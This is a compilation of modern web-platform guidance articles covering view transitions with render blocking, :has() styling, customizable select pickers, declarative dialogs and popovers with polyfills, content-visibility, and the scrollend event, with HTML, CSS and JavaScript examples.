Cross-document view transitions animate elements between two pages during a same-origin navigation. The browser captures a snapshot of the old page, navigates, then animates from the snapshot to the new page. If the new page has not finished loading critical resources — stylesheets, layout scripts, or key DOM elements — the transition animates to an incomplete or unstyled state. This causes visual glitches such as elements morphing to wrong positions, content reflowing mid-animation, or fallback fonts flashing to web fonts after the transition completes.

## The Solution

Use `blocking="render"` on critical `<link>` and `<script>` elements in the new page's `<head>`, and use `<link rel="expect">` to block rendering until specific DOM elements have been parsed. This ensures the browser does not begin the view transition animation until the new page's visual state is stable. The browser continues parsing the HTML in the background — only painting is deferred.

### Implementation Strategy

1. **MANDATORY:** Opt in to cross-document view transitions with the `@view-transition` CSS at-rule on both pages.
2. **MANDATORY:** Ensure critical stylesheets are in the `<head>`. Stylesheets in the `<head>` are render-blocking by default. Dynamically injected stylesheets require explicit `blocking="render"`.
3. **DO** use `blocking="render"` on `<script>` elements that must execute before the transition animates (e.g., scripts that apply a theme or affect the layout).
4. **DO** use `<link rel="expect" href="#element-id" blocking="render">` to block rendering until above-the-fold content has been parsed. This applies to all transition types: full-page cross-fades (to avoid animating to a blank page), morph animations (to ensure named elements exist in the DOM), and script-dependent layouts (to ensure styled content is parsed).
5. **DO NOT** block rendering on non-critical content. Only block on resources and elements that affect the initial viewport. Blocking on too much content delays the transition and degrades perceived performance.

## Implementation Guide

### Step 1: Opt in to Cross-Document View Transitions

MANDATORY: Both the source and destination pages must include the `@view-transition` at-rule. Without this, no cross-document transition occurs.

```css
/*
  MANDATORY: Include this rule in every page that participates
  in cross-document view transitions.
  `navigation: auto` enables transitions for standard navigations
  (link clicks, form submissions, back/forward).
*/
@view-transition {
  navigation: auto;
}

/* MANDATORY Copy-Paste Safety: Disable cross-document view transitions for users requesting reduced motion */
@media (prefers-reduced-motion: reduce) {
  @view-transition {
    navigation: none;
  }
}
```

### Step 2: Block Rendering Until Critical Scripts Execute

If a non-blocking script in the `<head>` must run before the transition animates (e.g., to apply a theme class or affect the layout), mark it with `blocking="render"`. Without this, `async`, `defer`, or `type="module"` scripts may execute after the transition has already started.

```html
<head>
  <!--
    DO: Mark layout-critical scripts with blocking="render".
  -->
  <script type=module blocking="render">
    // Example: apply a stored theme before the page renders,
    // so the transition snapshot reflects the correct theme.
    document.documentElement.dataset.theme =
      localStorage.getItem('theme') || 'light';
  </script>
</head>
```

### Step 3: Block Rendering Until Key DOM Elements Are Parsed

Stylesheets and `blocking="render"` scripts in the `<head>` only guarantee that the `<head>` has been fully processed. They do **not** wait for any `<body>` content to be parsed. Without additional blocking, the browser may take the new-page snapshot before above-the-fold elements exist in the DOM — resulting in a transition that animates to a blank or partially rendered page.

`<link rel="expect">` solves this by blocking rendering until a specific element (identified by its `id`) has been parsed. The `href` value must be a fragment identifier (e.g., `#hero`) matching the target element's `id` attribute. Once that element's closing tag is parsed, the render block is released.

**DO** use `<link rel="expect">` in all of the following scenarios:

#### Use Case 1: Full-Page Cross-Fade

Even when no individual elements have a `view-transition-name`, the default `root` transition cross-fades the entire page. If the new page's snapshot is taken before above-the-fold content is parsed, the cross-fade animates from the old page to a blank or incomplete page. Block rendering on an element that marks the end of the visible above-the-fold content.

```html
<head>
  <link rel="stylesheet" href="/css/styles.css">

  <!--
    DO: Block rendering until the main content area is parsed,
    even for a simple cross-fade. Without this, the browser may
    snapshot the page before visible content exists in the DOM,
    causing the cross-fade to reveal a blank or partial page.
  -->
  <link rel="expect" href="#main-content" blocking="render">
</head>
<body>
  <header>...</header>
  <main id="main-content">
    <h1>Page Title</h1>
    <p>Above-the-fold content the user should see immediately.</p>
  </main>
  <!-- Content below the fold does NOT need to be blocked on -->
  <section>...</section>
</body>
```

#### Use Case 2: Morph Animations Between Specific Elements

When elements on both pages share a `view-transition-name`, the browser morphs them smoothly across the navigation. If the target element has not been parsed when the transition starts, the browser cannot find it — the morph degrades to separate exit and entry animations. Block rendering until the element with the `view-transition-name` has been parsed.

```html
<head>
  <link rel="stylesheet" href="/css/styles.css">

  <!--
    DO: Block rendering until the element participating in the
    morph animation has been parsed. Without this, the browser
    may start the transition before #hero exists, causing the
    morph to degrade to a fade-out/fade-in.
  -->
  <link rel="expect" href="#hero" blocking="render">

  <!--
    When multiple blocking="render" resources are present,
    rendering is blocked until ALL of them are satisfied.
    Here, the browser waits for both the script to execute
    AND the #hero element to be parsed — whichever comes last.
  -->
  <script async blocking="render" src="/js/transition-setup.js"></script>
</head>
<body>
  <header>...</header>
  <section id="hero">
    <h1 style="view-transition-name: page-title">Product Name</h1>
    
  </section>
</body>
```

### Step 4: Use Media Queries for Responsive Render Blocking

Different viewport sizes may show different amounts of content above the fold. Use the `media` attribute on `<link rel="expect">` to block rendering only for the content visible at a given viewport width.

```html
<head>
  <!--
    DO: Use media queries to conditionally block rendering.
    On wide screens, both the hero and the sidebar are visible,
    so block until both are parsed. On narrow screens, only the
    hero is visible initially.
  -->
  <link
    rel="expect"
    href="#hero"
    blocking="render"
    media="screen and (width <= 768px)"
  >
  <link
    rel="expect"
    href="#sidebar"
    blocking="render"
    media="screen and (width > 768px)"
  >
</head>
```

### Step 5: Use pagereveal for Context-Dependent Transitions (Optional)

The `pagereveal` event is **not required** for the core render-blocking strategy. It is only needed when `view-transition-name` values must be assigned dynamically based on where the user navigated from — for example, morphing a specific list item to a detail page heading.

If `view-transition-name` values are assigned statically in CSS, or if you are only using the default full-page cross-fade, skip this step entirely.

```html
<head>
  <!--
    MANDATORY: The pagereveal listener must be registered before
    the page renders. Use an async script with blocking="render"
    so the listener is registered early without blocking parsing.
    If the listener is registered too late (e.g., in a deferred
    script), the event may have already fired.
  -->
  <script async blocking="render" src="/js/transition-setup.js"></script>
</head>
```

```javascript
// transition-setup.js
window.addEventListener('pagereveal', async (event) => {
  if (!event.viewTransition) return;

  const from = navigation.activation?.from;
  if (!from) return;

  const fromUrl = new URL(from.url);

  // DO: Assign view-transition-name based on navigation context.
  // This enables a morph animation from the product card on the
  // list page to the heading on the detail page.
  if (fromUrl.pathname === '/products/') {
    const heading = document.querySelector('main h1');
    if (heading) {
      heading.style.viewTransitionName = 'product-title';
    }

    // MANDATORY: Remove the temporary name after the transition
    // finishes. Stale names interfere with subsequent navigations
    // and prevent the page from entering the bfcache.
    await event.viewTransition.finished;
    heading.style.viewTransitionName = '';
  }
});
```

## Best Practices

- **DO** assign `view-transition-name` via CSS whenever possible. Reserve JavaScript assignment (via `pagereveal`) for cases where the name depends on navigation context.
- **DO** keep render-blocking scripts small and fast. The browser has a built-in timeout (around 4 seconds), after which the transition is skipped entirely with a `TimeoutError`.
- **DO NOT** use `<link rel="expect">` to block on elements deep in the page that are not visible in the initial viewport. This delays the transition without visual benefit.
- **DO NOT** assign the same `view-transition-name` to multiple elements on the same page. Duplicate names cause the entire transition to be skipped.
- **Assistive Technology Timing Impact**: Using `blocking="render"` delays visual updates and initial paint. While this prevents visual glitches for sighted users, it can cause processing latency or deferred initialization for screen readers and other assistive technologies that depend on rendered accessibility trees. Weigh the visual continuity benefits against the initial read latency for non-visual users, and ensure render-blocking scripts are minimal and extremely optimized.

## Fallback Strategies

Cross-document view transitions has limited availability.
Supported by: Chrome 126 (Jun 2024), Edge 126 (Jun 2024), and Safari 18.2 (Dec 2024).
Unsupported in: Firefox.

Cross-document view transitions are an excellent candidate for progressive enhancement. In browsers that do not support them, the `@view-transition` rule is ignored and standard same-origin navigations occurs exactly as they would without the feature. Supporting browsers get smooth transitions; all others get standard navigation. Limited browser support is not a reason to avoid adoption.

All browsers that support cross-document view transitions also support `blocking="render"` and `<link rel="expect">`, so no separate fallback is needed for the render-blocking features described in this guide.

## Other Considerations

1. **Performance Impact**: Every render-blocking resource delays the view transition animation start. Minimize the number of render-blocking scripts and use `<link rel="expect">` only for elements that are above the fold. Prerender destination pages using the Speculation Rules API to eliminate loading delays entirely.
2. **Timeout Behavior**: If the combined render-blocking time exceeds approximately 4 seconds, the browser skips the transition with a `TimeoutError`. Ensure critical resources load well within this window.
3. **bfcache Compatibility**: Temporary `view-transition-name` assignments that are not cleaned up after the transition can prevent the page from entering the bfcache. Always remove dynamically assigned names in the `finished` callback.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, vcs, api]

### 📘 KNOWLEDGE: NEXUS_CONTENT-BASED-STYLING.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Historically, applying different layouts to a component based on its content required either JavaScript or conditional logic in your HTML templating language to inject modifier classes (like `.card--has-image` or `.card--text-only`).

The `:has()` pseudo-class eliminates this need by acting as a parent selector. It allows you to conditionally style a container element based on the presence or absence of specific descendant elements.

Using `:has()`, you can easily define distinct layout variations entirely in CSS based on a component's actual DOM content. You can also optionally combine it with `:not()` to explicitly target the *absence* of content to define default layouts.

### Implementing content-based container styling

**MANDATORY**: You must use the `:has()` selector on the container element to detect the presence of specific child content.

To build a component that changes its layout based on its content:

1. **Define the default styling**: Apply the base layout styles to the container element (e.g., a simple single-column stack).
2. **Apply content-based overrides**: Target the container with `:has([child-selector])` and apply the new layout styles for when that content is present (e.g., a multi-column grid).

*Example: A card component that switches to a side-by-side layout if an image is present.*

```css
/* 1. Define the default state on the component container */
/* This applies when there is NO image */
.article-card {
  display: flex;
  flex-direction: column;
  gap: 1rem;
  padding: 1.5rem;
  border: 1px solid #ccc;
  border-radius: 8px;
}

/* 2. Apply styles when a specific child element is present */
/* MANDATORY: Target the container and use :has() to check for the descendant */
.article-card:has(img) {
  /* Change the layout to a row if an image exists */
  flex-direction: row;
  align-items: center;
}

/* Optional: Style the image itself (no :has() needed here) */
.article-card img {
  width: 150px;
  height: auto;
  border-radius: 4px;
}

/* You can also combine :has() and :not() to explicitly target the ABSENCE of content */
/* This selects a card that DOES NOT have an image */
.article-card:not(:has(img)) {
  /* E.g., apply a different background color for text-only cards */
  background-color: #f9f9f9;
}
```

```html
<!-- Assume an <h1> precedes these components in the document layout -->
<!-- A card WITH an image (will use row layout) -->
<article class="article-card">
  
  <div class="content">
    <h2>Card With Image</h2>
    <p>This card lays out its content horizontally.</p>
  </div>
</article>

<!-- A card WITHOUT an image (will use default column layout) -->
<article class="article-card">
  <div class="content">
    <h2>Text-Only Card</h2>
    <p>This card lays out its content vertically, and gets its background color from the :not(:has()) rule.</p>
  </div>
</article>
```

**Performance tip**: When using `:has()`, scope the selector to the most specific component container possible (like `.article-card`). Avoid anchoring it to very high-level elements like `body:has(img)` if the styling changes are highly localized, as broad `:has()` queries can trigger more layout recalculations.

### Fallback strategies

Baseline status for :has(): Newly available. It's been Baseline since 2023-12-19.
Supported by: Chrome 105 (Sep 2022), Edge 105 (Sep 2022), Firefox 121 (Dec 2023), and Safari 15.4 (Mar 2022).

If the content-based layout styling is critical to the user experience or page design, you must provide a fallback for browsers that do not support the `:has()` selector. For purely decorative effects, `:has()` can be used as a progressive enhancement without a fallback.

**MANDATORY**: When implementing a fallback for critical layouts, you must use `@supports not selector(:has(*))` in your CSS to define a traditional class-based fallback (e.g., `.has-image`).

Unlike interactive state-based styling, content presence is typically known at render time. The most robust fallback is to have your server-side templating engine (or static site generator) inject a class like `.has-image` onto the container if the child element (like an image) exists in the data.

If server-side rendering is not an option, you must use a small script with `CSS.supports()` to detect the content and append the class on load or after dynamic content injection.

```css
/* Fallback CSS for older browsers */
/* We check if the browser DOES NOT support the :has() selector */
@supports not selector(:has(*)) {
  /* Define a traditional modifier class that applies the exact same layout overrides */
  .article-card.has-image {
    flex-direction: row;
    align-items: center;
  }
  
  .article-card:not(.has-image) {
    background-color: #f9f9f9;
  }
}
```

```javascript
/* Fallback JavaScript for older browsers (if not using SSR to add the class) */
/* Check for support before running the script to avoid unnecessary work in modern browsers */
if (!CSS.supports('selector(:has(*))')) {
  // Find all components that need checking
  const cards = document.querySelectorAll('.article-card');
  
  cards.forEach(card => {
    // If the critical content exists, manually add the fallback class
    if (card.querySelector('img')) {
      card.classList.add('has-image');
    }
  });
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance]

### 📘 KNOWLEDGE: NEXUS_CUSTOM-SELECT-PICKER-LAYOUTS.MD

# Custom Select Picker Layouts
> **VERSION**: v1 | **Last Updated**: 26/05/2026


"Custom Select Picker Layouts" allow developers to break away from the traditional vertical list of options in a `<select>` dropdown. Using `appearance: base-select` and the `::picker(select)` pseudo-element, you can style the options list using modern CSS layout techniques like Grid or Flexbox. This is ideal for color pickers, emoji selectors, or product variants where a visual menu is more effective than a list.

The CSS property `appearance: base-select` unlocks the ability to style the internal parts of a `<select>` element. By targeting `select::picker(select)`, you can apply `display: grid` and position options in columns, creating a rich visual experience without custom JavaScript.

## How to Implement

To implement a custom select picker layout:

1. **Activate Base Styling:** Apply `appearance: base-select` to both the `<select>` element and its internal picker pseudo-element `select::picker(select)`.
2. **Style the Picker Container:** Target `select::picker(select)` and apply `display: grid` (or `display: flex`). Define columns and gaps as you would for any container.
3. **Style Options:** Target the `<option>` elements to style them as grid items or cards. You can add images, SVGs, or complex layouts inside them.
4. **Customize the Trigger (Optional):** Use `<selectedcontent>` inside a `<button>` to render rich content for the selected value.

## Example Code: Custom Grid Picker

```html
<label for="weather-picker">Select weather</label>
<select class="grid-picker" name="weather" id="weather-picker">
  <button>
    <selectedcontent></selectedcontent>
  </button>
  <option value="sunny">
    <span class="icon">☀️</span>
    <span class="label">Sunny</span>
  </option>
  <option value="cloudy">
    <span class="icon">☁️</span>
    <span class="label">Cloudy</span>
  </option>
  <!-- More options... -->
</select>
```

```css
/* Activate the customizable select state */
.grid-picker,
.grid-picker::picker(select) {
  appearance: base-select;
}

/* Style the dropdown list as a grid */
.grid-picker::picker(select) {
  display: grid;
  grid-template-columns: repeat(2, 1fr); /* 2 columns */
  gap: 10px;
  padding: 15px;
  background: white;
  border: 1px solid #ccc;
  border-radius: 8px;
}

/* Style options as grid cards */
.grid-picker option {
  display: flex;
  flex-direction: column;
  align-items: center;
  justify-content: center;
  padding: 15px;
  border: 1px solid #eee;
  border-radius: 6px;
}

/* MANDATORY: Use multiple visual indicators (distinct border thickness, background shift, and font weight) for the checked state to avoid color-only state communication */
.grid-picker option:checked {
  border: 2px solid #007bff;
  background-color: #f0f7ff;
  font-weight: 700;
}
```

## Strategic Implementation & Best Practices

- **DO** use `appearance: base-select` when you need to change the visual layout of options from a standard list to a 2D grid or custom flex flow.
- **DO NOT** assume the styles apply to all browsers equally yet; verify support and provide a fallback.
- **MANDATORY Accessibility Routing**: A native `<select>` element enforces one-dimensional linear arrow-key navigation (Up/Down). Arranging options in a 2D visual grid creates a spatial mismatch where pressing Left/Right arrows does not move focus horizontally between adjacent columns. If true two-dimensional keyboard navigation is essential for usability, do not use a native `<select>`; implement a custom ARIA `role="listbox"` composite widget with manual JavaScript matrix-based arrow key navigation instead.
- **DO** use `<selectedcontent>` if you want the trigger button to show images or icons from the selected option automatically.
- **DO** use standard `value` attributes on options to ensure form submission works exactly as before.
- **DO** ensure your `<select>` has a `name` attribute and an associated `<label>`. This ensures that even with a custom UI, the component remains accessible to screen readers and works correctly with standard form submissions.

## Fallback Strategy

### Fallbacks & browser support for Customizable <select>

Customizable <select> has limited availability.
Supported by: Chrome 135 (Apr 2025) and Edge 135 (Apr 2025).
Unsupported in: Firefox and Safari.

For browsers that do not yet support `appearance: base-select`, the `<select>` element degrades gracefully to a standard operating system dropdown.

- **Non-Text Content Ignored**: Older browsers strip HTML tags (like `<svg>` or `<div>`) inside `<option>` tags and render only the text nodes. Ensure the text content of the `<option>` is readable and meaningful on its own.
- **HTML Structure Handling**: Standard parsers may ignore the `<button>` and `<selectedcontent>` tags inside `<select>` or treat them as invalid. No heavy JavaScript polyfills are strictly required for progressive enhancement if you view standard text as a readable fallback.


```javascript
document.addEventListener("DOMContentLoaded", () => {
  // Check if browser supports base-select value
  if (!CSS.supports("appearance", "base-select")) {
    // Custom select overrides are not supported natively.
  }
});
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_DECLARATIVE-DIALOG-POPOVER-CONTROL.MD

# Overview
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Use the Invoker Commands API to toggle the visibility of `<dialog>` and `[popover]` elements directly from HTML buttons, eliminating the need for custom JavaScript event listeners.

By applying the `commandfor` (target ID) and `command` (action) attributes to a `<button>`, the browser automatically handles open/close state changes, focus management, and accessibility bindings (such as `aria-expanded`). This declarative approach is recommended because it removes brittle boilerplate code, ensures interactions are functional immediately upon HTML parsing, and guarantees a robust, natively accessible user experience.

## Implementing Declarative Popovers

Popovers can be toggled open and closed using a single button.

```html
<!-- MANDATORY: The commandfor attribute links the invoker to the ID of the target element so the browser knows what to control. -->
<!-- MANDATORY: The command attribute specifies the action to perform. Use 'toggle-popover' to handle both open and close states automatically. -->
<button commandfor="my-popover" command="toggle-popover">
  Toggle Popover
</button>

<!-- MANDATORY: The target element must have the popover attribute to be controlled as a popover. -->
<div id="my-popover" popover>
  <p>Popover content goes here.</p>
</div>
```

If you need to control opening and closing with separate buttons, you can use the `show-popover` and `hide-popover` commands.

```html
<!-- MANDATORY: Use 'show-popover' to explicitly open the popover. It will not close the popover if clicked again. -->
<button commandfor="my-explicit-popover" command="show-popover">
  Show Popover
</button>

<div id="my-explicit-popover" popover="manual">
  <p>This popover is explicitly opened and closed by separate buttons.</p>

  <!-- MANDATORY: Use 'hide-popover' to explicitly close the targeted popover. -->
  <button commandfor="my-explicit-popover" command="hide-popover">
    Hide Popover
  </button>
</div>
```

## Implementing Declarative Modal Dialogs

Unlike popovers, modal dialogs typically use separate buttons for opening and closing. Use the `show-modal` command specifically when you need to open a dialog as a modal.

```html
<!-- MANDATORY: Use command="show-modal" to trigger the dialog as a modal, trapping focus and preventing interaction with the rest of the page. -->
<!-- MANDATORY: The commandfor attribute connects this button to the dialog ID. -->
<button commandfor="confirm-dialog" command="show-modal">
  Open Confirmation
</button>

<dialog id="confirm-dialog">
  <p>Are you sure you want to proceed?</p>

  <!-- MANDATORY: Use command="close" to dismiss the dialog safely. -->
  <button commandfor="confirm-dialog" command="close">
    Cancel
  </button>
</dialog>
```

## Fallback strategies

Baseline status for Invoker commands: Newly available. It's been Baseline since 2025-12-12.
Supported by: Chrome 135 (Apr 2025), Edge 135 (Apr 2025), Firefox 144 (Oct 2025), and Safari 26.2 (Dec 2025).
Baseline status for Popover: Newly available. It's been Baseline since 2025-01-27.
Supported by: Chrome 116 (Aug 2023), Edge 116 (Aug 2023), Firefox 125 (Apr 2024), Safari 17 (Sep 2023), and Safari iOS 18.3 (Jan 2025).

Because Invoker Commands and Popovers are not yet universally supported, you MUST use polyfills as fallbacks for older browsers.

### Polyfilling Invoker Commands

MANDATORY: Feature detect support by checking for the `commandForElement` property on the `HTMLButtonElement` prototype. Do NOT check the window or document object. You MUST dynamically import the polyfill only when the native feature is missing. DO NOT unconditionally load the polyfill.
Mandatory: Listen for the 'command' event directly on the target element because the native 'command' event does not bubble.

**Option 1: Using a bundler**
Install the polyfill via npm (`npm install invokers-polyfill`). This approach is for projects using a bundler (like Vite or Webpack) or import maps. For all other setups, use the CDN option below.

```javascript
// MANDATORY: Feature detect 'commandForElement' on HTMLButtonElement.prototype.
// Conditionally load the invokers-polyfill only in browsers lacking native support.
if (!('commandForElement' in HTMLButtonElement.prototype)) {
  import('invokers-polyfill');
}
```

**Option 2: Using a CDN**
For projects without a bundler, dynamically import the polyfill directly from a CDN inside a `<script type="module">`.

```html
<script type="module">
  // MANDATORY: Feature detect 'commandForElement' on HTMLButtonElement.prototype.
  // Conditionally load the invokers-polyfill from a CDN only in browsers lacking native support.
  if (!('commandForElement' in HTMLButtonElement.prototype)) {
    import('https://esm.run/invokers-polyfill');
  }
</script>
```

**Invokers Polyfill Limitations**
MANDATORY: This polyfill does not handle the ARIA states (e.g., `aria-expanded`) of the command button the way native browsers do. You are strongly encouraged to handle these states yourself to ensure your site is fully accessible.

Baseline status for Invoker commands: Newly available. It's been Baseline since 2025-12-12.
Supported by: Chrome 135 (Apr 2025), Edge 135 (Apr 2025), Firefox 144 (Oct 2025), and Safari 26.2 (Dec 2025).

If the Invoker Commands API is not supported, the `command` event will not fire. For full support across all modern browsers, it is recommended to use the invokers-polyfill from https://github.com/keithamus/invokers-polyfill via `npm install` or CDN.

This polyfill fully supports custom actions (starting with `--`) and dispatches the `command` event exactly like the native API.

### Dynamic Import (Performance Optimization)

For the best performance, you should only load the polyfill if the browser doesn't support the API natively. This saves bandwidth and reduces script execution time for users on modern browsers.

```javascript
// Check for native support first
const hasNativeSupport = 'commandForElement' in HTMLButtonElement.prototype;

if (!hasNativeSupport) {
  // Dynamically import the polyfill only when needed
  try {
    await import('https://cdn.jsdelivr.net/npm/invokers-polyfill@latest/dist/index.min.js');
    console.log('Invoker Commands polyfill loaded');
  } catch (err) {
    console.error('Error loading fallback:', err);
  }
}
```

### Manual fallback (Traditional pattern)

If you prefer not to use a polyfill, you can use a combination of **event delegation** to dispatch events and a **command registry** to handle the actions. This is a common architectural pattern in traditional JavaScript development that remains highly efficient and scalable.

```javascript
// 1. Define a registry of requested actions for cleaner logic
const commandRegistry = {
  '--spin': (target) => target.classList.toggle('is-spun'),
  '--grow': (target) => target.classList.toggle('is-grown'),
  '--reset': (target) => target.classList.remove('is-spun', 'is-grown'),
};

const supportsInvokers = 'commandForElement' in HTMLButtonElement.prototype;

// 2. The fallback: Dispatch events manually if native support is missing
if (!supportsInvokers) {
  document.addEventListener('click', (event) => {
    const button = event.target.closest('button[commandfor]');
    if (!button) return;

    const target = document.getElementById(button.getAttribute('commandfor'));
    const command = button.getAttribute('command');

    if (target && command) {
      target.dispatchEvent(new CustomEvent('command', {
        bubbles: true,
        detail: { command }
      }));
    }
  });
}

// 3. The unified listener: Registered directly on the target element
document.getElementById('action-target').addEventListener('command', (event) => {
  const command = event.command || event.detail?.command;
  const target = event.currentTarget;
  const action = commandRegistry[command];

  if (action) {
    action(target);
  }
});
```

### Polyfilling the Popover Attribute

To support the `popover` attribute in older browsers, use the `@oddbird/popover-polyfill`.

MANDATORY: Feature detect popover support by checking for the `popover` property on the `HTMLElement` prototype. Conditionally initialize the polyfill only if native support is missing.

**Option 1: Using a bundler**
Install the package via npm (`npm install @oddbird/popover-polyfill`). This method requires a bundler or import maps to resolve the module path.

```javascript
// MANDATORY: Feature detect 'popover' on HTMLElement.prototype.
if (!('popover' in HTMLElement.prototype)) {
  import('@oddbird/popover-polyfill/fn').then(({ apply }) => {
    apply();
  });
}
```

**Option 2: Using a CDN**
For projects without a bundler, dynamically import the polyfill directly from a CDN inside a `<script type="module">`.

```html
<script type="module">
  // MANDATORY: Feature detect 'popover' on HTMLElement.prototype.
  // Conditionally load the popover-polyfill from a CDN only in browsers lacking native support.
  if (!('popover' in HTMLElement.prototype)) {
    import('https://unpkg.com/@oddbird/popover-polyfill@latest/dist/popover-fn.js').then(({ apply }) => {
      apply();
    });
  }
</script>
```

**Popover Polyfill Limitations & Styling Caveats**
MANDATORY: Use `:is()` or `:where()` to combine `:popover-open` with the corresponding polyfill class, otherwise browsers that do not support `:popover-open` will throw away the entire rule.

```css
[popover]:is(:popover-open, .\:popover-open) {
  display: block;
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, tdd, api]

### 📘 KNOWLEDGE: NEXUS_DEFER-RENDERING-HEAVY-CONTENT.MD

# Defer rendering heavy content
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Web pages with extensive content—such as infinite scrolls, complex dashboards, or dense articles can suffer from slow initial rendering and sluggish interactions. Modern web technologies allow you to defer the rendering workload for content that is not immediately visible, significantly boosting performance without breaking accessibility or user expectations.

To optimize rendering, you can utilize the CSS `content-visibility` property and the HTML `hidden="until-found"` attribute. While both aid performance, they serve distinct use cases.

## When to use which

| Scenario / Example | Feature Applied | Performance Benefit |
| :--- | :--- | :--- |
| **1. Below the fold** (Delay initial load) | **`content-visibility: auto`** | Browser automatically offloads layout/paint workload until the container scrolls close to view, keeping standard page load speed frictionless. |
| **2. Toggle State** (Fast view switching) | **`content-visibility: hidden`** | Skips layout calculations for hidden divs but preserves style containment state, allowing for instantaneous toggling without structural shifts (superior to `display: none`). |
| **3. Searchable & Deferred** (Collapsible disclosures) | **`hidden="until-found"`** | For detailed instructions on combining rendering performance with find-in-page search accessibility, see `search-hidden-content` (via `npx -y modern-web-guidance@latest retrieve "search-hidden-content"`). |

## How to implement `content-visibility: auto`

### Choosing off-screen content

**MANDATORY**: You MUST carefully identify which elements receive `content-visibility: auto`.
- **DO** target large, self-contained layout blocks that are strictly **below the initial fold** (e.g., card items in an infinite feed, trailing comments, or bottom-heavy layout sections).
- **DO NOT** apply this property to elements within the initial, above-the-fold viewport. Doing so forces the browser to evaluate visibility boundaries before rendering, which paradoxically delays critical page load performance.
- **DO** target elements with deep or complex internal DOM structures to maximize rendering cost savings.

### Implementation steps

1. **MANDATORY**: Identify heavy sections that are confirmed to be off-screen on initial load.
2. **MANDATORY**: Apply `content-visibility: auto` to each of these off-screen elements.
3. **MANDATORY**: Provide an estimated layout structure size using `contain-intrinsic-size` on each element.

### How to use `contain-intrinsic-size`

**MANDATORY**: You MUST pair `content-visibility: auto` with `contain-intrinsic-size`. Failure to do so forces the browser to collapse the element to a 0px height when off-screen, causing severe layout shifting and scrollbar jumping as the user scrolls.

The `contain-intrinsic-size` CSS shorthand property acts as a placeholder dimension. Using the `auto` keyword enables the browser to "remember" the exact size once the element is finally rendered, using that calculated size over the placeholder if the element goes off-screen again.

### Example code

```css
/* DO ONLY apply this class to items OUTSIDE the initial layout viewport */
.heavy-section-deferred {
  /* MANDATORY: Skips rendering calculations when off-screen */
  content-visibility: auto;
  
  /* Mandatory: Provide an estimated size to prevent layouts shifts.
    - 'auto' is optional and enables the browser to remember the actual size
      once rendered. It must be paired with a <length> value to be used for
      the first render.
    - 'none' tells the browser not to apply any intrinsic width to this element.
      It can be used for either the height or the width value.
    - '150px' is the estimated height of this element. This can be any valid
      CSS <length> value.
   */
  contain-intrinsic-size: auto none auto 150px; 
}
```

## How to implement `content-visibility: hidden`

1. **Identify heavy sections:** Locate layout blocks that are initially hidden (e.g., extra rows in a large data table).
2. **Apply CSS:** Add `content-visibility: hidden` to the element.
3. **Reveal the element:** When the element should be revealed, change the `content-visibility` property to `visible` or `auto`.

### Example code

```css
.cached-view {
  /* Hides content but caches rendering state */
  content-visibility: hidden;
}

.cached-view.is-active {
  content-visibility: visible;
}
```

Because `content-visibility: hidden` excludes the element and its children from the accessibility tree and find-in-page search, **DO NOT** use it if the content must remain discoverable while hidden. If you need hidden content to remain searchable via native Find-in-page, use `hidden="until-found"` as described in `search-hidden-content` (via `npx -y modern-web-guidance@latest retrieve "search-hidden-content"`).

## Best Practices

- **DO** use `contain-intrinsic-size` with `content-visibility: auto`. Failure to do so forces height recalculations on scroll, causing viewport layout jumping or visual glitches.
- **DO NOT** apply `content-visibility: auto` to elements inside the initial fold viewport, as this delays critical page rendering.
- **MANDATORY Accessibility Verification**: When applying `content-visibility: auto`, you MUST verify sequential keyboard reachability. In certain assistive technology configurations, off-screen nodes utilizing `content-visibility: auto` may be excluded from the accessibility tree or sequential navigation routes until focus is forcibly moved inside them. Test linear navigation across off-screen boundaries using keyboard alone.

## Fallback strategies

### `content-visibility` fallback

Baseline status for content-visibility: Newly available. It's been Baseline since 2025-09-15.
Supported by: Chrome 108 (Nov 2022), Edge 108 (Dec 2022), Firefox 130 (Sep 2024), and Safari 26 (Sep 2025).

When `content-visibility` is not supported it will be ignored by the browser. In most cases `content-visibility: auto` will not need a fallback, though without it performance gains will be lost. An unsupported browser will leave `content-visibility: hidden` elements completely visible. Use feature detection to implement a fallback.

```css
/* Default for everyone */
.inactive {
  display: none;
}

/* Modern Browsers only */
@supports (content-visibility: hidden) {
 .inactive {
    display: block; /* Turn the layout box back on */
    content-visibility: hidden;
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, tdd]

### 📘 KNOWLEDGE: NEXUS_DEFER-WORK-UNTIL-SCROLL-ENDS.MD

# Defer Work Until Scroll Ends
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Scrolling on the web should be smooth and responsive. Executing heavy tasks—such as layout recalculations, analytics data beacons tracking, or dynamic DOM updates—during scrolling can saturate the main thread, resulting in dropped frames and layout thrashing.

Historically, developers have relied on debouncing the `scroll` event using `setTimeout()` to guess when a scroll is finished. However, these debounced functions are notoriously unreliable. They may trigger while the user’s is still scrolling.

The `scrollend` event offers a highly reliable, performance-driven solution. The browser fires a `scrollend` event exactly when a scroll has rested, all transitions are finished, and a touch gesture has been released.

## How to Implement

To implement a defer-work pattern:

1. **Set Up a Scrollable Container**: Create a container with `overflow: auto` or `overflow: scroll`.
2. **Listen for `scroll` events**: Only use this listener for basic dynamic metrics or informative layout styling. Do not execute heavy work here.
3. **Listen for `scrollend` events**: Register a `scrollend` callback on the scroll container or the document itself.
4. **Execute Expensive work in the callback**: This is where it's safe to fetch dynamic content or trigger comprehensive DOM layouts.

## Example Code

```css
.scroll-container {
  height: 300px;
  overflow-y: auto;
}
```

```javascript
const scroller = document.querySelector('.scroll-container');

// 1. Informative feedback during scroll
scroller.addEventListener('scroll', () => {
  // Avoid dynamic heavier data updates here
  console.log('Scrolling dynamically... updates deferred');
});

// 2. Safe callback when scrolling rests
scroller.addEventListener('scrollend', () => {
  // Run layout recalculations or analytical beacons updates here
  const currentVisibleSection = findMostVisibleSection(scroller);
  fetchAdditionalData(currentVisibleSection);
});
```

## Strategic Implementation & Best Practices

- **DO** use `scrollend` instead of debounced `scroll` events when firing layout data beacons or fetching new content content layout dynamically. 
